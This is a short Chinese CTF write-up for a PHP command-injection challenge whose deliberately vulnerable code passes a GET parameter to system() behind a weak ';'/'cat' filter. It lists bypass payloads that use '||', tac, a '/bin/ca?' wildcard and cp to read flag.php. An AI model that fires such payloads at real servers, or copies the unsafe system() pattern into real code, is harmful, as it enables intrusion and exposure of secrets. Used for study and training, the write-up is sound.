





```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}

```

分析源码

过滤了

;

cat

并将标准输出和标准错误输出都重定向到/dev/null


### 第一种

利用||绕过无输出

并用tac绕过cat命令

```
?c=ls||
```



```
?c=tac flag.php||
```




### 第二种

利用？匹配bin目录下的cat命令

```
?c=/bin/ca? flag.php||
```




### 第三种

利用cp复制flag.php到1.txt

然后读取1.txt

```
?c=cp flag.php 1.txt ||
```



